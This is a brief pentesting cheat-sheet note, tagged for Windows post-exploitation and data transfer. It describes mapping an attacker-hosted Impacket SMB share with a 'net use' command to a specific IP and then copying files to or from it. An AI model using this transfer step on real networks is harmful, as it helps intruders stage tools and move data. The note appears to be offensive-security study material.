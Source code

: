 ```yaml
---
tags:
  - PostExploitation
  - DataTransfer
  - Windows
---
```

A SMB share can be used across an entire domain
1. [[3. Exploitation/Operating Systems/Windows/Tooling/Impacket|Impacket]] SMB server share
2. Net Use

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

